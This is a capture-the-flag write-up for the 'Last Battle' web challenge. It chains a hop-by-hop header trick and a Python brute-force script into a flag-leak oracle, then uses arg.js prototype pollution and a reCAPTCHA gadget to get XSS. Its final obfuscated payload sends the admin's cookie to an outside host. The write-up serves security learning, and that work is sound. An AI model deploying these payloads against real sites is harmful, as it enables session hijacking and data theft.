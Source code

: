 # Last Battle 

Last Battle was the final challenge in Yogosha Christmas CTF, combining an interesting attack vectors to get the flag. The source was provided, Flask was taking care of the application's functionality, Nodejs for the admin bot and finally MySQL as a database. 

It was a simple app that allows users to create pastes, search for them. It was clear that this was a client-side challenge. 

At first glance it looked like an **XSS-Leak** challenge, where we can leak admin's pastes


```python
@app.route('/search',methods=["POST"])
@csrf.exempt
def search():
    if 'username' not in session:
        return redirect('/login')
    if 'query' not in request.form:
        return jsonify({"Total":len(get_pastes(session['username']))})
    query = str(request.form.get('query'))
    results = (
        paste for paste in get_pastes(session['username'])
        if query in paste
    )
    try:
        res=next(results)
        agent=request.headers["User-Agent"]
        if len(agent)>10:
            res=agent[0:15]+" is allowed to execute the jutsu: "+res
        else:
            res=agent[0:15]+" is not allowed to execute the jutsu: "+res
        return render_template("view.html",paste="Not Found")
    except StopIteration:
        return render_template("view.html",paste="Not Found")
```

From the above snippet, our search query will result in "Not Found", in other words, we can't search for our pastes which means this was not intended to be an XSS-Leak challenge. 

We know the flag is stored in the admin's paste, so time to change stratigies 

```sql
LOCK TABLES `pastes` WRITE;
/*!40000 ALTER TABLE `pastes` DISABLE KEYS */;
INSERT INTO `pastes` VALUES ('REDACTED','FLAG{REDACTED}','REDACTED');
/*!40000 ALTER TABLE `pastes` ENABLE KEYS */;
UNLOCK TABLES;
```


It was not clear at the begining, even if we had an admin account, we can not utilize **search** to search for the flag. I have spent some time brainstorming ideas to get advantage of the search functionaliy, until I saw that there was an **Apache** configuration file attached to the source, which explains the weird check for the **User-Agent** in **app.py** 

```
<VirtualHost *:*>
        ProxyPreserveHost On
        Header setifempty User-Agent "NarutoBrowseru"
        RequestHeader setifempty User-Agent "NarutoBrowseru"
        ProxyPass / http://0.0.0.0:5000/
        ProxyPassReverse / http://0.0.0.0:5000/
        ServerName localhost
</VirtualHost>
```

## Hop By Hop headers to remove User-Agent

The proxy will force our User-Agent to be **NarutoBrowseru**. I was thinking of a way to remove that, Hop By Hop headers was a good candidate to start with. 

Using my account, I created a paste with a fake flag, and tried to reproduce that. 


```
POST /search HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Cookie: session=eyJjc3JmX3Rva2VuIjoiZTlhNGQ2ZWYzZWRmYWFkZmYzOGQxMTEzN2E2MWJmYjVmOWU1ODlhNSIsInVzZXJuYW1lIjoiZGFhIn0.Y6gCmA.j1cmOce_yncYgHZFrfScq4jGshI
Connection: close,User-Agent

query=FLAG&csrf_token=ImU5YTRkNmVmM2VkZmFhZGZmMzhkMTExMzdhNjFiZmI1ZjllNTg5YTUi.Y6gCmA.CUmdfPFJwXuXeD1HlxpSDx3TDQI
```

The server returned a **500 INTERNAL SERVER ERROR**, and **200 OK** when the paste doesn't exist. This was clear from the code for the search endpint, if the paste doesn't exist, it will not reach the if statement that checks for the User-Agent, so we can use that to leak the flag char by char. 


```python
app_1  |   File "/usr/local/lib/python3.6/dist-packages/werkzeug/datastructures.py", line 1397, in __getitem__
app_1  |     return _unicodify_header_value(self.environ[f"HTTP_{key}"])
app_1  | KeyError: 'HTTP_USER_AGENT'
```

I came up with a Python solver to leak the flag char by char abusing this behaviour

```python
import requests
import string
flag = "FLAG"

chall = "http://127.0.0.1/search"
alpha = string.printable.replace("&","")
cookie = {"session":"eyJjc3JmX3Rva2VuIjoiMGY2Njg5YjljYWM0Y2Y0YWQ0N2M2MDY3MmNmZWVkYTE5ZjllMDQxYSIsInVzZXJuYW1lIjoiaG9ja2FnZSJ9.Y6b4wg.CTkON1BfkzsQgw36CrVTPenKd5o"}
headers = {"Content-Type":"application/x-www-form-urlencoded",
	"User-Agent":"Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
	"Connection":"close,User-Agent"

}
sess = requests.Session()
sess.verify = False
while 1:
	for char in alpha:
		flagGetter = flag + char
		data = "query={}&csrf_token=ImYxZTI3YzE1YWVjZThiMjg0NmU2MDY2MTZkYjZiMjkxNDYyYTZmNTMi.Y6bcew.MvgTELESsZyEWPR0F_qHumV7GRI".format(flagGetter)
		req = sess.post(chall,data=data,cookies=cookie,headers=headers,proxies={"http":"http://127.0.0.1:8080"})
		sess.headers.update(headers)

		if req.status_code == 500:
			flag+=char
			print(flag)
			break
```

It was not possible to play with the **Connection** header using Python requests, so I created a **match & replace** condition via Burp. Running the script came back with the fake flag.

We need to reproduce the same, but using the admin account. It was obvious that we need to login as an admin, or steal the admin's session. 

## Client-Side Prototype Pollution


After further analysis, I've noticed that **view.html** imports **arg.js** to handle arguments and parameters

```html
<script src="https://raw.githack.com/stretchr/arg.js/master/dist/arg-1.4.js"></script>
<script src="https://www.google.com/recaptcha/api.js" async defer></script>
<script>
    fetch("/search",{method:"POST",credentials:"include"}).then((resp)=>resp.json()).then((data)=>{
        document.getElementById("total").innerText="The total of pastes now: "+data.Total;
    }).catch(
        console.log("error")
    )
    var args=Arg.parse(location.search);
```

**/view** was also an endpoint being used by the app
```python
@app.route("/view",methods=["GET"])
def view():
    if request.args["id"]:
        id=request.args["id"]
        return render_template("view.html",paste=id)
    else:
        return redirect("/home")
```

arg.js is vulnerable to prototype pollution. You can read more about it [here](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/pp/arg-js.md), but we have a similar scenario. 

Using **/view?__proto__[test]=test&id=1337** as a payload worked, it was possible to confirm that via Developer Tools as well

```js
>> x = {}
Object {  }

>> x.test
"test"
```


Our goal is simple now, client-sie prototype pollution > find script gadgets to achieve XSS. Because Google Captcha was being loaded in /veiw.html (for no reason), we can utilize **srcdoc** to achieve XSS, You can read more about it [here](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/recaptcha.md)

**view?__proto__[srcdoc]=<script>alert(1)</script>&id=1337** achieved an alert, so we need to steal the admin's cookie by reporting a cookie stealer to admin. I think it took me 3 hours to relize that the bot is alive and well.  


Final payload

```
http://34.204.107.224/view?__proto__[srcdoc]=<script>eval(atob("bmF2aWdhdG9yLnNlbmRCZWFjb24oYGh0dHA6Ly9ob3N0Lz9jb29raWU9JHtkb2N1bWVudC5jb29raWV9YCk7Cg="))</script>%26id%3D1337
```

Once we get the cookie, it was a matter of reporducing the same step demonstrated above. 


![hop](https://user-images.githubusercontent.com/32583633/209466900-a67f857b-dcaf-4d9a-8e31-d68d49533e8d.png)



